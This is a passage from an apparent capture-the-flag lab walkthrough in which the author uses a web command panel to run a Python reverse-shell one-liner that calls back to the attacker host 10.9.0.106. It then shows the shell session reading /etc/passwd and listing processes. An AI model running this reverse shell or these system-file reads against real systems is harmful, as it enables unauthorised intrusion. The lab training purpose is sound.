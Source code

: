 ```bash
# There is a php page /evilshell.php there we can see the command pallete which can execute our commands ,it seems like we can put a reverse shell in it and if it gets executed we may get a get a shell.

┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.106",7007));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

┌[rawbot@pwnbox]─[/home/rawbot]
└╼[★]$ nc -lvnp 7007  
listening on [any] 7007 ...
connect to [10.9.0.106] from (UNKNOWN) [10.10.29.51] 57740
/bin/sh: 0: can't access tty; job control turned off
$ ls
css
drpepper.txt
evilshell.php
index.php
js
$ whoami
www-data
$ cat /etc/passwd               
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
$ ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  1 07:51 ?        00:00:30 /sbin/init maybe-ubiquity
root         2     0  0 07:51 ?        00:00:00 [kthreadd]
root         3     2  0 07:51 ?        00:00:00 [kworker/0:0]
root         4     2  0 07:51 ?        00:00:00 [kworker/0:0H]
root         6     2  0 07:51 ?        00:00:00 [mm_percpu_wq]
root         7     2  0 07:51 ?        00:00:00 [ksoftirqd/0]
root         8     2  0 07:51 ?        00:00:00 [rcu_sched]
root         9     2  0 07:51 ?        00:00:00 [rcu_bh]
root        10     2  0 07:51 ?        00:00:00 [migration/0]
```